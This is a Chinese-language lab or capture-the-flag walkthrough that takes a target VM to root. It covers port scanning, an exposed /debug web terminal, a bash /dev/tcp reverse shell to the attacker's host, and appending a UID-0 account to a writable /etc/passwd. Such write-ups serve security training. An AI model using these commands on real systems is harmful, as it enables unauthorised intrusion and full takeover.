### 扫描

```
nmap -p- --min-rate 10000 192.168.174.137
```



```
nmap -sU --min-rate 10000 192.168.174.137
```

(没有重要信息，不再展示)

```
nmap -p22,80,3306,8080 -sT -sV -sC -O 192.168.174.137 -oA /nmapscan/tcp
```



```
nmap -p8080 --script=vuln 192.168.174.137
```

80和8080端口在这个靶机中应该是我们重点关注的对象，3306是mysql，22是ssh（-sC和--script=vuln一定要分开用，不然会扫的过于详细，不利于渗透）



可以看到提示/debug是一个值得关注的目录文件

```
http://192.168.174.137/
```

先查看网页


这个网页经过许多尝试，没有发现什么明显的信息点，同时别忘了还有8080端口

```
http://192.168.174.137:8080/
```



```
http://192.168.174.137:8080/debug/
```



发现网页内有一个终端



```
sudo -l
```



发现在网页内好像不能进行提权

那就尝试转移到本机终端上



```
bash -c 'exec bash -i &>/dev/tcp/192.168.174.128/12345 <&1'
```

同时本机运行nc -lvnp 12345



------

可以进行shell升级，把简陋的 shell 升级为完整的交互式 TTY

在初步拿到反弹shell时，因为不是伪终端，有许多命令都需要在终端下运行，这时候需要设置一些东西



在遇到因为终端问题不能运行命令时，就按上面照片的三个命令设置

------

```
sudo -u brexit /bin/bash
```

切换到brexit用户



在brexit用户的目录下，有一个.viminfo文件

`.viminfo` 是 **Vim 文本编辑器的状态快照文件**。当用户用 Vim 编辑文件并退出时，Vim 会将当前的会话状态保存到这个文件中，以便下次启动 Vim 时恢复工作环境。

```
cat .viminfo
```



发现有人修改过/etc/passwd

接下来查看其权限

```
ls la /etc/passwd
```



说明我们当前用户是可以进行写入的

传统 `/etc/passwd` 文件中每一行格式：

```
用户名:密码占位符:UID:GID:描述:家目录:shell
```

```
openssl passwd -1 -salt mysalt 123456
```

用于生成‘123456’的密码哈希


```
echo 'fang:$1$mysalt$T4oSp49iyvO9meX0gsAv4/:0:0:root:/root:/bin/bash' >> /etc/passwd
```

写入成功后直接提权

```
su fang
```



成功拿到root权限